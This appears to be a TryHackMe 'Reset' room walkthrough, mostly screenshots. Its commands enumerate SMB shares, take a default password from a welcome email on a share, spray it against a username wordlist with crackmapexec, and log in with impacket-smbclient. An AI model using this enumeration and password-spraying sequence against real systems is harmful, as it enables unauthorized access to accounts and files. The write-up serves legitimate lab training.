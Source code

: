 ### 28-Jan-24-Sun

[TryHackMe | Reset](https://tryhackme.com/room/resetui)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/61ea74ae-c24f-45ce-85b8-3d8bdc8bccb7)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/92883bea-ca72-4d71-89d7-52c694617a41)

```
smbclient -L \\\\HayStack.thm.corp\\
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/d004d845-e589-4576-a16e-af9e216d2a9a)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/b2be8cca-9d7f-43c7-8a25-9ec44fdf90be)

```
Subject: Welcome to Reset - Dear <USER>,Welcome aboard! We are thrilled to have you join our team. As discussed during the hiring process, we are sending you the necessary login information to access your company account. Please keep this information confidential and do not share it with anyone.The initial passowrd is: ResetMe123!We are confident that you will contribute significantly to our continued success. We look forward to working with you and wish you the very best in your new role.Best regards,The Reset Team
```

```
ResetMe123!
```

```
crackmapexec smb 10.10.138.145
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/05604de3-92e5-49cd-8bdc-9ae0a05a9842)

```
crackmapexec smb 10.10.138.145 -u /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -p 'ResetMe123!'
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/c39077ef-8d6e-4a92-af3e-7e3f9f117fb3)

```
impacket-smbclient thm.corp\root:'ResetMe123!'@10.10.138.145
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/18b6a3fa-556c-400d-b7e4-6709676ba924)

